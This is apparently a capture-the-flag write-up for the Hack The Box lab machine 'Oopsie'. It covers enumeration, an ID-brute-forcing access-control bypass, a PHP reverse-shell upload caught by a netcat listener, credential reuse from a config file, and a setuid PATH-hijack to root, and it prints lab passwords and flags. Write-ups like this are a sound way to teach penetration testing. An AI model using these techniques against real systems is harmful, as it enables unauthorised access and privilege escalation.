# Enumeration
```bash
┌──(root💀Shiro)-[/home/shiro]
└─$ nmap -sC -sV 10.10.10.28   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-01 11:14 +08
Nmap scan report for 10.10.10.28
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.48 seconds
```
Then, we proceed to check their website. However, there's nothing much to be found.. so we will use Burp Suite instead!



# Logging in
On the site map, we can see that there is an interesting URL with the path ```/cdn-cgi/login/script.js```



Seems like we found the login page! However, I couldn’t find a way to log in..

After some researching, it turns out that the credentials were from the previous Archetype machine.. ```admin:MEGACORP_4dm1n!!```



Clicking on the `uploads` page shows us that we need Super Admin right.



# Finding Super Admin

Let’s find a way to get Super Admin rights!



I noticed that the URL contains ```content=accounts&id=1```. Let's send this to Intruder to brute force the ids.





To brute force the account ids, I used bash scripting ```$ for i in {1..100}; do echo $i; done``` to generate numbers from 1 to 100 and then pasted it into the Payload Options in Intruder.



After running the attack, we can see that ```id=30``` gets us the super admin ```id=86575``` needed under the ```Response``` tab (the length was different from the rest)


Now we go back to the ```Proxy``` tab and use the correct user id to gain access.



Then we try to access ```Uploads``` page again with the same tactic.


# Uploading PHP-Reverse-Shell
Lets try uploading a php-reverse-shell downloaded from [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)! (to extract the tar file, use ```tar xvzf file.tar.gz```)

But wait.. we don’t know where the file will be uploaded to on the website. So lets use `gobuster` to find out!

```bash
$ gobuster dir -u http://10.10.10.28 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.28
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/01 11:59:44 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.28/images/]
/themes               (Status: 301) [Size: 311] [--> http://10.10.10.28/themes/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.28/uploads/
```
Now that we know the file will be uploaded to `uploads`, we can run a listener ```nc -nlvp 1234``` and curl the php file that we uploaded ```curl http://10.10.10.28/uploads/php-reverse-shell.php```
Navigate to `http://10.10.10.28/uploads/php-reverse-shell.php` and our listener will be able to get a shell

```bash
nc -nlvp 1234           
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.28.
Ncat: Connection from 10.10.10.28:37356.
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 04:24:15 up  2:06,  0 users,  load average: 0.07, 0.03, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Since this is just a simple shell, lets use this command to upgrade it ```python3 -c 'import pty; pty.spawn("/bin/bash")'```.

First, lets view the user.txt file!
```bash
www-data@oopsie:/home/robert$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```
Then, lets proceed to check the website folders at ```/var/www/html```
```bash
www-data@oopsie:/home/robert$ cd /var/www/html/cdn-cgi/login
cd /var/www/html/cdn-cgi/login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
Seems like there is a credential for `robert`. Lets try if we can switch user to `robert`!
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/var/www/html/cdn-cgi/login$ 
```
Nice! We then find out that `robert` is in a `bugtracker` group using ```id``` command
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
Now we check what files does this group have~
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ find / -type f -group bugtracker 2> /dev/null
/usr/bin/bugtracker
```
Seems like a `bugtracker` program? Lets check the permissions!

```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ ls -la /usr/bin/bugtracker
ls -la /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

It seems like the owner of the file is `root` but the `bugtracker` group can execute the program. Note that there is a `setuid` bit.. Maybe we can somehow exploit that by executing the file as `root`!

>   Source: [StackExchange](https://unix.stackexchange.com/questions/118853/what-does-the-s-attribute-in-file-permissions-mean)
>
>   That is the "setuid" bit, which tells the OS to execute that program with the userid of its owner. This is typically used with files owned by root to allow normal users to execute them as root with no external tools (such as `sudo`).

```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
```
Running the programs show nothing much.. So I tried using the ```strings``` command to check if there’s anything interesting
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ strings /usr/bin/bugtracker
strings /usr/bin/bugtracker
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
strcpy
__isoc99_scanf
__stack_chk_fail
putchar
printf
strlen
malloc
strcat
system
geteuid
__cxa_finalize
__libc_start_main
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/
;*3$"
GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7697
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
test.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
putchar@@GLIBC_2.2.5
_ITM_deregisterTMCloneTable
strcpy@@GLIBC_2.2.5
_edata
strlen@@GLIBC_2.2.5
__stack_chk_fail@@GLIBC_2.4
system@@GLIBC_2.2.5
printf@@GLIBC_2.2.5
concat
geteuid@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
malloc@@GLIBC_2.2.5
__bss_start
main
__isoc99_scanf@@GLIBC_2.7
strcat@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```
It seems that there is a very interesting line ```cat /root/reports```. Since the program is running a relative path instead of absolute path, we can abuse this by creating a fake `cat` binary that executes a shell and add it to the front of the environment PATH variable. 

1.  Create a `tmp` directory
2.  Create a `cat` binary that executes `/bin/sh`
3.  Make the binary excecutable
4.  Add the path `/tmp:` to `$PATH`
5.  Execute `bugtracker` command to gain root access

```bash
robert@oopsie:~$ cd/tmp
robert@oopsie:/tmp$
robert@oopsie:/tmp$ echo '/bin/sh' > cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/tmp$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

# 
# cd /root
cd /root
# ls
ls
reports  root.txt
# cat root.txt
cat root.txt
# vi root.txt
vi root.txt
af13b0bee69f8a877c3faf667f7beacf
```
